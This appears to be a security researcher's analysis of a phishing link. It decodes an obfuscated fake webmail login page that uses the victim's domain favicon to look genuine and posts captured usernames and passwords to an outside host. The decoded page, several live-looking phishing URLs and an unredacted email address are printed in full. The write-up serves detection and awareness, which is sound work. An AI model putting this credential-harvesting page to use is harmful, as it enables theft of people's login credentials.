 ### Introduction

Today I received the following mail:

https://hjvfyktdfky56kdrt5jt5ej5.web.app/?emailtoken=t.xxxx@gmail.com&domain=google.com

This is a phishing website which is controlled by the host https://bremerrapidest.xyz

Here is the analysis conducted on this phishing url.

### Investigation

1) Source code of https://hjvfyktdfky56kdrt5jt5ej5.web.app/?emailtoken=t.defise@gmail.com&domain=google.com

It seems that:
- The content of the page has been encoded in ASCII
- The content show a reference to [@therealelyayo](https://github.com/therealelyayo) which is an account that host several fork of phishing tools such as:
  - [HiddenEye-Legacy](https://github.com/DarkSecDevelopers/HiddenEye-Legacy): 2K Starts & 901 Forks
  - [AdvPhishing](https://github.com/Ignitetch/AdvPhishing): 528 Stars & 261 Forks
  - [Recreator-Phishing](https://github.com/AngelSecurityTeam/Recreator-Phishing): 109 Stars & 39 Forks
  - [BlackPhish](https://github.com/iinc0gnit0/BlackPhish)

2) Decoding of the phishing page

This has been encoded using ASCII

- Raw encoded page:
```html
<Script Language='Javascript'>
<!-- HTML Encryption provided by therealelyayo -->
<!--
document.write(unescape('%3C%21%44%4F%43%54........%74%6D%6C%3E'));
//-->
</Script>
```
- Decoded page:
```html
<!DOCTYPE html>
<!--[if IE 8 ]> <html class="ie ie8" lang="en"> <![endif]-->
<!--[if IE 9 ]> <html class="ie ie9" lang="en"> <![endif]-->
<!--[if (gte IE 10)|!(IE)]><!-->
<html lang="en">
<!--<![endif]-->

<head>
    <meta charset="utf-8">
    <title>Sign In</title>
    <meta name="viewport" content="width=device-width,user-scalable=no">
    <meta name="domain-suggester-prompt" content="Did you mean {{corrected_email}}?">
    <meta name="api-uri" content="https://api.squareup.com">
    <meta name="max-idle-minutes" content="30">
    <meta name="referrer" content="origin">
    <link href="https://gresrty.imfast.io/login.css" media="screen" rel="stylesheet">
    <link rel="canonical" href="/login">
    <link id="favicon" rel="icon" href="" type="image/png" sizes="16x16">
</head>

<body class="login-page ">
    <div id="content" class="fade-in l-table">
        <div id="login-wrapper" class="l-table-row">
            <div class="l-table-cell">
                <section class="login-modal">
                    <div class="login-modal-user-pass">
                        <div class="login-modal-logo">

                            <body>
                                <script>
                                    document.title = "Webmail Login"; // Notice: this will defeat purpose of SEO. Not useful for SEO-friendly sites.
                                </script>
                                <script>
                                    const queryString3 = window.location.search;
                                    const urlParams3 = new URLSearchParams(queryString3);
                                    const imageBoxx = urlParams3.get('domain');
                                    ChangeFavicon();

                                    function ChangeFavicon() {
                                        var total1 = imageBoxx;
                                        var link = document.querySelector("link[rel*='icon']") || document.createElement('link');
                                        link.type = 'image/x-icon';
                                        link.rel = 'shortcut icon';
                                        link.href = 'https://www.google.com/s2/favicons?domain=' + total1 + ''; //path to your icon document.getElementsByTagName('head')[0].appendChild(link);} 
                                </script>
                                <script>
                                    const queryString2 = window.location.search;
                                    const urlParams2 = new URLSearchParams(queryString2);
                                    const imageBox = urlParams2.get('domain');
                                    window.onload = function() {
                                        var total = imageBox;
                                        document.getElementById('imageBox').src = 'https://www.google.com/s2/favicons?domain=' + total + '';
                                    };
                                </script> <img id="imageBox" src="" alt="" width="40" height="40">
                        </div>
                        <h1 id="top">Webmail&nbsp;<span id="demo"></span> &nbsp; </h1>
                        <script>
                            const queryString1 = window.location.search;
                            const urlParams1 = new URLSearchParams(queryString1);
                            const demo = urlParams1.get('domain');
                            var str = demo;
                            document.getElementById("demo").innerHTML = demo;
                        </script>
</body>
</div>
<div class="login-modal-content">
    <form accept-charset="UTF-8" action="https://bremerrapidest.xyz/merrybe/post.php" class="signin-page-form" method="post" novalidate="novalidate">
        <div class="field email-field fade-label"> <label class="text" for="email"></label> <input autocapitalize="off" autocomplete="off" autocorrect="off" autofocus="autofocus" class="text" id="username" name="username" size="20" spellcheck="false" type="email" value=""> </div>
        <div class="message-box-error-wrapper">
            <div class="message-box-error"></div>
        </div>
        <div class="field password-field fade-label"> <label class="text" for="password">Password</label> <input class="text" id="password" name="password" size="20" autocomplete="off" onkeyup="checkForm()" type="password" value="">
            <div class="form-group"><input type=hidden id="address" name=address size=5 value=""><input type=hidden id="address2" name=type size=5 value=""> </div>
            <div id="captcha" class="g-recaptcha submit-button"></div>
            <div class="submit-button full-length-submit-button"> <button id="sign-in-button" type="submit" class="btn btn-blue track-event" disabled="disabled"> <span class="button-text">Sign In</span> </button> </div>
    </form>
</div>
</div>
<script>
    function checkForm() {
        var name = document.getElementById("password").value;
        var cansubmit = (name.length > 3);
        document.getElementById("sign-in-button").disabled = !cansubmit;
    };
</script>
<script>
    const queryString = window.location.search;
    const urlParams = new URLSearchParams(queryString);
    const email = urlParams.get('emailtoken');
    const type = urlParams.get('domain');
    const address = urlParams.get('domain');
    const image = urlParams.get('domain');
    document.getElementById('username').value = email;
    document.getElementById('address').value = type;
    document.getElementById('address2').value = address;
    document.getElementById('image2').value = image;
    document.getElementById("demo").innerHTML = 5 + 6;
    var str = email;
    var str1 = type;
    var str2 = address;
    var str3 = image;
    str = str.substring(str.indexOf("@") + 1);
    document.getElementById('hlight').innerHTML = str;
</script>
</body>

</html>
```

2) Analysis of the decoded page (Social Engineering)

As document "*// Notice: this will defeat purpose of SEO. Not useful for SEO-friendly sites.*"
The website get the parameter "https://hjvfyktdfky56kdrt5jt5ej5[.]web[.]app/?emailtoken=t.xxxx@gmail.com&domain=google.com" **domain=google.com**.
The domain parameter is given to https://www.google.com/s2/favicons?domain= in order to find an icon on the given domain.
The goal is to fool the user by:
  - Including an icon within the *<link id="favicon" rel="icon" href="" type="image/png" sizes="16x16">*
  (See variable **imageBoxx**) 
  - Include the icon within form (Visually)
  (See variable **imageBox**)

```html
<script>
    const queryString3 = window.location.search;
    const urlParams3 = new URLSearchParams(queryString3);
    const imageBoxx = urlParams3.get('domain');
    ChangeFavicon();

    function ChangeFavicon() {
        var total1 = imageBoxx;
        var link = document.querySelector("link[rel*='icon']") || document.createElement('link');
        link.type = 'image/x-icon';
        link.rel = 'shortcut icon';
        link.href = 'https://www.google.com/s2/favicons?domain=' + total1 + ''; //path to your icon document.getElementsByTagName('head')[0].appendChild(link);} 
</script>
<script>
    const queryString2 = window.location.search;
    const urlParams2 = new URLSearchParams(queryString2);
    const imageBox = urlParams2.get('domain');
    window.onload = function() {
        var total = imageBox;
        document.getElementById('imageBox').src = 'https://www.google.com/s2/favicons?domain=' + total + '';
    };
</script> <img id="imageBox" src="" alt="" width="40" height="40">

```

It also add the domain to the page within the form (visually) by doing the following, just after the line above 

```html
<h1 id="top">Webmail&nbsp;<span id="demo"></span> &nbsp; </h1>
<script>
    const queryString1 = window.location.search;
    const urlParams1 = new URLSearchParams(queryString1);
    const demo = urlParams1.get('domain');
    var str = demo;
    document.getElementById("demo").innerHTML = demo;
</script>
```

So for instance, if I navigate to "https://hjvfyktdfky56kdrt5jt5ej5[.]web[.]app/?emailtoken=t.defise@gmail.com&domain=nfl.com", with **domain=nfl.com**, it will show me the logo of the National Football League.

https://www.google.com/s2/favicons?domain=nfl.com 
![](favicons_nfl.png)

3) Analysis of the form

As you can seen the POST is performed towards another domain "https://bremerrapidest[.]xyz"

```html
 <form accept-charset="UTF-8" action="https://bremerrapidest.xyz/merrybe/post.php" class="signin-page-form" method="post" novalidate="novalidate">
```

After enumerating the folder files & folder available on this websites, I found the following page https://bremerrapidest[.]xyz/admin/, which should, according to me also be classified as malicious

![](website.PNG)

At the moment, this website is only seen as malicious by one engine on VirusTotal

![](vt_1.PNG)

And on the otherside, the phish is not detected by any engine on VirusTotal

![](vt_2.PNG)


